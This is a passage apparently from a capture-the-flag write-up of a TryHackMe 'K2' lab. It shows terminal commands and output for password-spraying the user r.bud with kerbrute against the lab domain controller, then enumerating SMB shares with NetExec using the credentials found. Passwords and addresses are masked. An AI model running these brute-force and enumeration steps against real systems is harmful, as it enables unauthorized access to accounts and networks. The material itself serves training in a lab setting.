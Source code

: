 <br>
<br>
<br>

```bash
:~/K2# cat passwords.txt
************
************
***********
***********
**************
************
****************
****************
**************
```

```bash
:~/K2# kerbrute bruteuser -d k2.thm --dc k2server.k2.thm passwords.txt r.bud

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/29/25 - Ronnie Flathers @ropnop

2025/09/29 xx:xx:xx >  Using KDC(s):
2025/09/29 xx:xx:xx >  	K2server.k2.thm:88

2025/09/29 xx:xx:xx >  [+] VALID LOGIN:	 r.bud@k2.thm:**************
2025/09/29 xx:xx:xx >  Done! Tested 9 logins (1 successes) in 0.411 seconds
```

<img width="1286" height="246" alt="image" src="https://github.com/user-attachments/assets/207a703d-e97c-410a-82d7-7db098ed953a" />

<br>
<br>
<br>

```bash
:~/K2# nxc smb K2Server.k2.thm -u r.bud -p '**************' --shares
SMB         xx.xxx.xx.xxx   445    K2SERVER         [*] Windows 10 / Server 2019 Build 17763 x64 (name:K2SERVER) (domain:k2.thm) (signing:True) (SMBv1:False) 
SMB         xx.xxx.xx.xxx   445    K2SERVER         [+] k2.thm\r.bud:************** 
SMB         xx.xxx.xx.xxx   445    K2SERVER         [*] Enumerated shares
SMB         xx.xxx.xx.xxx   445    K2SERVER         Share           Permissions     Remark
SMB         xx.xxx.xx.xxx   445    K2SERVER         -----           -----------     ------
SMB         xx.xxx.xx.xxx   445    K2SERVER         ADMIN$                          Remote Admin
SMB         xx.xxx.xx.xxx   445    K2SERVER         C$                              Default share
SMB         xx.xxx.xx.xxx   445    K2SERVER         IPC$            READ            Remote IPC
SMB         xx.xxx.xx.xxx   445    K2SERVER         NETLOGON        READ            Logon server share 
SMB         xx.xxx.xx.xxx   445    K2SERVER         SYSVOL          READ            Logon server share 
```
